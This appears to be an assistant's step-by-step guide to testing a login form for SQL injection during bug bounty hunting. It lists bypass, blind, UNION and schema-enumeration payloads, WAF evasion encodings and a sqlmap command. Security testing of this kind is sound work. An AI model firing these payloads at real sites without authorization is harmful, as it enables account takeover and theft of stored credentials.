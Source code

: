 Starting with SQL Injection (SQLi) on a login page is a sound approach for bug bounty hunting, but it's essential to structure your testing to ensure thorough and ethical analysis. Here's a step-by-step strategy and suggestions:

---

### **1. Understand the Form Structure**
- **Target Fields:** `user[email]` and `user[password]`.
- **Action URL:** `/login`.
- **Method:** `POST`.
- **CSRF Protection:** `authenticity_token` is present, indicating CSRF protection. Ensure you include this in your requests.

---

### **2. Basic SQLi Payloads**
Test the `email` and `password` fields individually with basic payloads to check for error-based SQL injection:
- `' OR 1=1--`
- `' OR '1'='1`
- `' UNION SELECT NULL, NULL--`
- `' OR EXISTS(SELECT 1)--`

If the form returns errors, observe whether they indicate SQL query failures (e.g., syntax errors) or logical bypasses.

---

### **3. Time-Based Blind SQLi**
If no error is revealed, try time-based blind SQLi:
- `' OR IF(1=1,SLEEP(5),0)--`
- `' AND IF(1=1,BENCHMARK(1000000,MD5(1)),0)--`

Monitor response times to identify delays caused by your payloads.

---

### **4. Authentication Bypass**
Attempt to bypass authentication by manipulating the fields:
- Email: `' OR 1=1--`
- Password: `anything`

Submit to see if the application bypasses authentication logic.

---

### **5. UNION-Based SQLi**
Test for UNION injection to extract data:
- `' UNION SELECT NULL, NULL--`
- `' UNION SELECT 1,2--`
- `' UNION SELECT username,password FROM users--`

Look for clues in the response that indicate successful injection.

---

### **6. Advanced Payloads**
- Determine the number of columns: `' ORDER BY 1--`, `' ORDER BY 2--`, etc.
- Explore database information:  
  ```sql
  ' UNION SELECT schema_name,NULL FROM information_schema.schemata--
  ' UNION SELECT table_name,NULL FROM information_schema.tables--
  ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users'--
  ```

---

### **7. WAF Detection and Bypasses**
Most websites usually have a Web Application Firewall (WAF). Test payloads with common evasion techniques:
- Encoding: `%27%20OR%201=1--`
- Case manipulation: `' Or 1=1--`
- Inline comments: `' OR 1/**/=/**/1--`

---

### **8. Automate Testing**
Use tools like `sqlmap` to automate payload delivery and enumeration:
```bash
sqlmap -u "https://target.com/login" --data="user[email]=test&user[password]=test&authenticity_token=TOKEN" --risk=3 --level=5
```
Modify `--data` to include your POST payload.

---

### **9. Check for Other Injection Points**
- Is the `authenticity_token` vulnerable to SQLi?
- Test URL parameters, headers, or hidden fields.

---

### **10. Ethical Considerations**
Always:
- Avoid testing in production environments unless explicitly allowed.
- Submit only validated vulnerabilities with clear replication steps.

---

### Recommended Payloads Cheat Sheet
- **Authentication Bypass:** `' OR '1'='1`
- **Time-Based Blind SQLi:** `' AND IF(1=1,SLEEP(5),0)--`
- **Data Extraction (Columns):** `' UNION SELECT 1,group_concat(column_name) FROM information_schema.columns--`

Start with reconnaissance payloads to gather intel, then escalate based on the responses. Good luck, and happy hunting! 
